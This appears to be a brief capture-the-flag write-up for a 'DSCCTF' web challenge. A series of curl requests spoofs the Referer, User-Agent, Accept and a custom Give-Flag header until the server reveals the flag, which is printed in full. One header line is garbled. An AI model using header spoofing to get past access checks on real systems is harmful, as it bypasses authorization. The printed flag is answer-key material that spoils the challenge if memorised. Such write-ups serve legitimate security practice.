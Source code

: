 # DSCCTF

BY FOLLOWING CULES WE CAN TRY DIFFERENT VARIATION TO GET THE FINAL FLAG 

$ curl -s https://secretgroup.ctf.dscjssstuniv.in/
<p>Not an agent of the <b>dsc-4dm1n</b> secure browser!</p>

$ curl -H "Referer: https://secretgroup.ctf.dscjssstuniv.in/"      -H "User-*/*"pt: fl4g"      -H "Give-Flag: true"      https://secretgroup.ctf.dscjssstuniv.in/
<p>Does not Accept <b>fl4g</b></p>

$ curl -H "Referer: https://secretgroup.ctf.dscjssstuniv.in/"      -H "User-Agent:true-4dm1n"      -H "Accept: fl4g"      -H "Give-Flag: 7ru3"      https://secretgroup.ctf.dscjssstuniv.in/
<b>Give-Flag</b> is not <b>7ru3</b>

$ curl -H "Referer: https://secretgroup.ctf.dscjssstuniv.in/"      -H "User-Agent: dsc-4dm1n"      -H "Accept: fl4g"      -H "Give-Flag: 7ru3"      https://secretgroup.ctf.dscjssstuniv.in/
dscctf{y0u_4r3_n0w_4_v4l1d_m3mb3r_0f_th3_s3cr3t_gr0up!}
